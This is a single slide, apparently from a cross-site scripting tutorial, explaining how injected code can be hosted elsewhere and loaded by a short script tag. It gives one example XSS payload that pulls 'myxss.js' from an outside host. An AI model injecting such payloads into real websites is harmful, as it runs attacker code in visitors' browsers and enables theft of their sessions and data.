

# Code Stored Elsewhere
I feel this is a good time to talk about how you can store your injected code somewhere else on the web.
The script tag allows you to link to a javascript file. (Good for limited character fields) Eg
<script src=“http://asite.com/myxss.js”></script>